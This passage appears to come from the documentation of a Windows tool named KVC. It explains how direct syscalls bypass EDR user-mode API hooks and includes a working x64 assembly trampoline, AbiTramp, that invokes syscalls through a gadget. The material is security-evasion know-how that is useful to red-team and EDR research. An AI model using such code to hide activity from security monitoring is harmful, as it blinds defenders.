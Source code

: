 Modern EDR solutions monitor system activity by hooking critical APIs:

```assembly
; Traditional API call (MONITORED)
call    NtCreateThreadEx       ; EDR hook intercepts here
```

### KVC's Direct Syscall Solution

KVC bypasses user-mode hooks entirely by invoking kernel services directly:

```assembly
; Direct syscall (UNMONITORED)
mov     eax, SSN_NtCreateThreadEx    ; System Service Number
syscall                              ; Direct kernel transition
```

#### The ABI Transition Challenge

Windows x64 calling conventions differ between user-mode and syscalls:

```cpp
// User-mode ABI: RCX, RDX, R8, R9, then stack
// Syscall ABI: R10, RDX, R8, R9, then stack (RCX replaced with R10)
```

#### AbiTramp.asm: The Critical Trampoline

```asm
AbiTramp PROC FRAME
    ; Standard prologue
    push    rbp
    mov     rbp, rsp
    push    rbx
    push    rdi  
    push    rsi
    sub     rsp, 80h        ; Allocate stack space
    .ENDPROLOG
    
    ; Preserve SYSCALL_ENTRY pointer
    mov     rbx, rcx
    
    ; Marshal arguments: C++ ABI -> Syscall ABI
    mov     r10, rdx        ; Arg1: RDX -> R10
    mov     rdx, r8         ; Arg2: R8 -> RDX  
    mov     r8, r9          ; Arg3: R9 -> R8
    mov     r9, [rbp+30h]   ; Arg4: Stack -> R9
    
    ; Copy additional stack arguments
    lea     rsi, [rbp+38h]  ; Source: caller stack
    lea     rdi, [rsp+20h]  ; Dest: syscall stack area
    mov     rcx, 8          ; Copy 8 qwords
    rep     movsq
    
    ; Load SSN and execute syscall
    movzx   eax, word ptr [rbx+12]  ; Load System Service Number
    mov     r11, [rbx]              ; Load syscall gadget address  
    call    r11                     ; Execute: syscall; ret
    
    ; Standard epilogue
    add     rsp, 80h
    pop     rsi
    pop     rdi
    pop     rbx
    pop     rbp
    ret
AbiTramp ENDP
```